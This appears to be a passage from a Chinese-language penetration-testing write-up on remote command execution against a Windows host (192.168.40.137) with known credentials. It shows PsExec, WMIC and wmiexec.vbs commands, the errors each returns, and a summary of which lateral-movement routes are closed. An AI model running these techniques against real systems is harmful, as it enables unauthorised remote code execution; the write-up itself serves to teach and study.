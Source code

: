 ```
PsExec.exe \\192.168.40.137 /accepteula -u test -p testtest -c c:\runtest\calc.exe

```

找不到网络名，判断目标主机已禁用ADMIN$共享

如图3

![这里写图片描述](http://drops.javaweb.org/uploads/images/0df42beff40e74b921e90c2795b72965627f89ae.jpg)

3、WMIC
------

```
wmic /node:192.168.40.137 /user:test /password:testtest process call create calc.exe

```

Description = 无法启动服务，原因可能是已被禁用或与其相关联的设备没有启动，判断WMI服务被禁用

如图4

![这里写图片描述](http://drops.javaweb.org/uploads/images/da55a24209809f5e676e83159d319b0a150e7249.jpg)

4、wmiexec
---------

```
cscript.exe wmiexec.vbs /cmd 192.168.40.137 test testtest "ipconfig"

```

WMIEXEC ERROR: 无法启动服务，原因可能是已被禁用或与其相关联的设备没有启动，判断WMI服务被禁用

如图5

![这里写图片描述](http://drops.javaweb.org/uploads/images/eab81e7c5da8f5c501596bfffd1ea07e47254055.jpg)

0x05 分析
=====

整理下目前掌握的目标主机信息：

目标主机:

```
1、已获得登陆用户名及口令
2、可以net use连接
3、开放共享C

```

但是：

```
1、默认admin$共享关闭，无法使用psexec
2、Task scheduler关闭，无法使用at、schtasks
3、Windows Management Instrumentation服务关闭,关闭135端口无法使用wmic、wmiexec
4、不支持3389

```
